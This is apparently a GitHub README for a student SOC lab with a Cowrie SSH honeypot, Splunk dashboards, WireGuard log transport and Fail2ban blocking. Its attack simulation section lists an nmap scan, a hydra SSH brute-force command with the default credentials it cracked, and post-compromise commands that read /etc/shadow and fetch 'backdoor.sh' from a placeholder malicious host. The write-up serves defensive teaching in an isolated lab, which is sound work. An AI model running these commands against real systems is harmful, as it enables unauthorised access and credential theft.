







# SOC Honeypot Project - Cybersecurity Lab

A comprehensive Security Operations Center (SOC) project demonstrating threat detection, log analysis, and automated defense mechanisms using enterprise security tools.



## 🎯 Project Overview

This project simulates a real-world SOC environment where a honeypot attracts malicious traffic, logs are aggregated and analyzed in real-time, alerts are triggered based on attack patterns, and automated defenses respond to threats.

**Key Components:**
- **Honeypot:** Cowrie SSH honeypot running on Ubuntu
- **SIEM:** Splunk Enterprise for log aggregation and analysis
- **VPN:** WireGuard for encrypted log transport
- **Attack Simulation:** Kali Linux for realistic attack scenarios
- **Network Analysis:** Wireshark for packet-level inspection
- **Automated Defense:** Fail2ban for dynamic IP blocking

---

## 🏗️ Architecture

### Network Topology
```
┌─────────────┐         ┌──────────────┐
│  Kali Linux │────────▶│   Honeypot   │
│  (Attacker) │         │  (Cowrie)    │
└─────────────┘         └───────┬──────┘
                                │
                         WireGuard VPN
                          (Encrypted)
                                │
                        ┌───────▼──────┐
                        │    Splunk    │
                        │    Server    │
                        └──────────────┘
```

**VMs:**
- Honeypot VM: Ubuntu 24.04 (Cowrie, Splunk Forwarder, WireGuard)
- Splunk VM: Ubuntu Server 24.04 (Splunk Enterprise, WireGuard)
- Attacker VM: Kali Linux (nmap, Hydra)

**Network Configuration:**
- VirtualBox Internal Network (isolated environment)
- WireGuard tunnel: 10.0.0.0/24
- No external internet access during attacks

---

## ⚙️ Setup & Configuration

### Prerequisites
- VirtualBox 7.x
- 16GB RAM (minimum)
- 100GB storage
- Basic Linux command-line knowledge

### Installation Steps

<details>
<summary>1. Honeypot Setup (Click to expand)</summary>

**Install Cowrie:**
```bash
sudo apt update
sudo apt install git python3-venv libssl-dev libffi-dev build-essential -y
sudo adduser --disabled-password cowrie
sudo su - cowrie
git clone http://github.com/cowrie/cowrie
cd cowrie
python3 -m venv cowrie-env
source cowrie-env/bin/activate
pip install -r requirements.txt
```

**Configure Cowrie:**
```bash
cp etc/cowrie.cfg.dist etc/cowrie.cfg
nano etc/cowrie.cfg
# Set hostname, ports, fake credentials
```

**Key Configuration:**
- Listen Port: 2222
- iptables redirect: Port 22 → 2222
- JSON logging enabled
- Fake SSH banner: OpenSSH 8.9p1

</details>

<details>
<summary>2. WireGuard VPN Setup (Click to expand)</summary>

**Install on both VMs:**
```bash
sudo apt install wireguard -y
wg genkey | tee /etc/wireguard/private.key | wg pubkey > /etc/wireguard/public.key
```

**Server Config (Splunk VM):**
```ini
[Interface]
PrivateKey = 
Address = 10.0.0.1/24
ListenPort = 51820

[Peer]
PublicKey = 
AllowedIPs = 10.0.0.2/32
```

**Client Config (Honeypot VM):**
```ini
[Interface]
PrivateKey = 
Address = 10.0.0.2/24

[Peer]
PublicKey = 
Endpoint = :51820
AllowedIPs = 10.0.0.1/32
PersistentKeepalive = 25
```

</details>

<details>
<summary>3. Splunk Configuration (Click to expand)</summary>

**Install Splunk Forwarder on Honeypot:**
```bash
wget -O splunkforwarder.deb 'https://download.splunk.com/...'
sudo dpkg -i splunkforwarder.deb
```

**Configure inputs.conf:**
```ini
[monitor:///home/cowrie/cowrie/var/log/cowrie/cowrie.json]
index = main
sourcetype = cowrie
```

**Configure outputs.conf:**
```ini
[tcpout]
defaultGroup = splunk_server

[tcpout:splunk_server]
server = 10.0.0.1:9997
```

</details>

---

## 🎭 Attack Simulation

### Phase 1: Reconnaissance
**Tool:** `nmap`
```bash
nmap -sV -p 1-1000 
```

**Detected:**
- Port 22 (SSH) open
- Service: OpenSSH 8.9p1



---

### Phase 2: Brute Force Attack
**Tool:** `hydra`
```bash
hydra -L usernames.txt -P passwords.txt ssh:// -t 4 -V
```

**Results:**
- 40 login attempts
- 6 credentials compromised:
  - root/123456
  - root/password
  - root/admin
  - admin/password
  - admin/admin
  - ubuntu/ubuntu



---

### Phase 3: Post-Compromise Activity

**Commands Executed:**
```bash
whoami
id
uname -a
cat /etc/passwd
cat /etc/shadow
ps aux
netstat -tulpn
wget http://malicious-site.com/backdoor.sh
```

---

## 🛡️ Defense Implementation

### Defense 1: IP-Based Blocking (iptables)

**Immediate response to detected threat:**
```bash
sudo iptables -A INPUT -s  -j DROP
sudo netfilter-persistent save
```

**Result:** All traffic from attacker blocked immediately.



---

### Defense 2: Automated Brute Force Protection (Fail2ban)

**Installation:**
```bash
sudo apt install fail2ban -y
```

**Cowrie Jail Configuration:**
```ini
[cowrie]
enabled = true
port = 22,2222
filter = cowrie
logpath = /home/cowrie/cowrie/var/log/cowrie/cowrie.json
maxretry = 5
bantime = 3600
findtime = 300
```

**Filter Regex:**
```ini
[Definition]
failregex = .*"eventid":"cowrie\.login\.failed".*"src_ip":""
```

**Result:** Attacker IP automatically banned after 5 failed attempts.



**Re-attack Blocked:**


---

## 📊 Splunk Dashboard

**Custom Dashboard with 8 Panels:**

1. **Total Failed Login Attempts** (Single Value)
2. **Login Attempts Over Time** (Line Chart)
3. **Honeypot Connection Attempts** (Line Chart)
4. **Top Attacker IPs** (Bar Chart)
5. **Live Honeypot Events** (Table)
6. **Most Attempted Credentials** (Table)
7. **Successful Logins** (Table)
8. **Commands Executed by Attacker** (Table)

### Configured Alerts

| Alert Name | Severity | Condition | Action |
|------------|----------|-----------|--------|
| Brute Force Detected | Critical | >10 failed logins from single IP | Add to Triggered Alerts |
| Successful Honeypot Login | Critical | Any successful login | Add to Triggered Alerts |
| Port Scan Detected | High | >5 connections from single IP | Add to Triggered Alerts |
| Unknown IP Accessing Honeypot | Medium | New IP with <3 connections | Add to Triggered Alerts |



---

## 🔍 Key Learnings

1. **Honeypots provide valuable threat intelligence** - Captured real attack patterns and attacker behavior
2. **SIEM correlation is critical** - Splunk enabled detection of multi-stage attacks
3. **Automated defenses scale better** - Fail2ban responded faster than manual blocking
4. **Weak credentials remain a major vulnerability** - All compromised passwords were common/default
5. **Encrypted log transport prevents tampering** - WireGuard secured the SIEM pipeline

---

## 🚀 Future Enhancements

- [ ] Deploy Suricata IDS for deeper packet inspection
- [ ] Implement GeoIP blocking based on threat intelligence
- [ ] Add malware analysis sandbox (Cuckoo)
- [ ] Create custom Splunk correlation rules
- [ ] Integrate with MITRE ATT&CK framework
- [ ] Deploy a cloud-based honeypot

---

## 🛠️ Technologies Used

- **Virtualization:** VirtualBox
- **Operating Systems:** Ubuntu 24.04, Kali Linux
- **Honeypot:** Cowrie (SSH/Telnet)
- **SIEM:** Splunk Enterprise
- **VPN:** WireGuard
- **IDS/IPS:** Fail2ban
- **Attack Tools:** nmap, Hydra
- **Analysis:** Wireshark

---

## 🔒 Data Sanitization

All packet captures have been sanitized:
- IP addresses anonymized to RFC1918 ranges
- MAC addresses replaced with generic identifiers
- No personally identifiable information included

---

## 👤 Author

**Ahmad Bussti**
- LinkedIn: https://www.linkedin.com/in/ahmad-bussti-7bb574359/
- Portfolio: https://github.com/abussti
- Email: abussti@gmail.com

---

**⭐ If you found this project useful, please consider giving it a star!**
